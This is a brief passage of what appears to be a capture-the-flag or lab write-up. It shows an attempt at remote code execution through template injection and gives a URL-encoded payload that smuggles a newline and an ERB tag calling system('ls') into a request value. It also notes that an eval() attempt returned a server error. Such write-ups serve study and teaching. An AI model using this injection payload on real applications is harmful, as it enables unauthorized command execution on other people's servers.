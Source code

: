 ![](./IMG/15.png)

> So, I start to craft the rce 
> Try using system()
> it only return true / false as response
```
sdf%0A<%25%3d%20system("ls")%20%25>
```

![](./IMG/22.png)
> Try eval(), response "Internal Server Error"
